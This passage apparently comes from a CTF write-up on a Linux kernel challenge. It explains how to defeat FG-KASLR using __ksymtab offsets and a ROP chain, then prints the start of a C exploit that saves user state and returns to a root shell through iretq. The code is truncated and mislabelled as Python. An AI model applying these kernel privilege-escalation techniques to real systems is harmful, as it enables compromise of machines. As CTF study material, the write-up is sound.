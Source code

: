 # 0x04 Bypass FG-KASLR

This step is actually now hard if you know the basics of FG-KASLR:
- It only randomizes sections starting with `.text`
- There are `SHF_ALLOC` and `SHF_EXECINSTR` in section flags


```c
struct kernel_symbol {
    int value_offset;
    int name_offset;
    int namespace_offset;
};
```

The basic way to bypass it is based on `__ksymtab` section, which records the offset between the functions and its `__ksymtab` entries. The `__ksymtab` struct includes `value_offset` and the address of function XxX is `=&__ksymtab_XxX + __ksymtab_XxX.value_offset`.


People usually use two ways to leak the randomized function addresses:
- Use arbitrary address read 
- Use ROP to load the metadata and do the math

I was too lazy to create a `real` arbitrary address read (msg_msg leak is not a real arbitrary address since it requires a p64(0)) so I created a `FG-KASRL`-free ROP chain to leak the correct functions addresses.

All the problems are solved.

# 0x05 Exploitation

```python
//gcc main.c -o ./main -lx -w
//gcc main.c -o ./main -lx -w
#include "libx.h"
#if defined(LIBX)
    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
    }
    size_t back2root = shell;
    void back2userImp(){
        __asm__("mov rax, user_ss;"
            "push rax;"
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
```

[1]: https://github.com/Crusaders-of-Rust/corCTF-2021-public-challenge-archive/tree/main/pwn/wall-of-perdition
[2]: https://syst3mfailure.io/wall-of-perdition/
[3]: https://dl.acm.org/doi/abs/10.1145/3576915.3623220
[4]: https://github.com/sefcom/RetSpill/blob/main/igni/chain_builder.py#L97
[6]: https://elixir.bootlin.com/linux/latest/source/include/linux/msg.h#L9
[7]: https://elixir.bootlin.com/linux/latest/source/ipc/msgutil.c#L37
[8]: https://n132.github.io/2024/02/09/IPS.html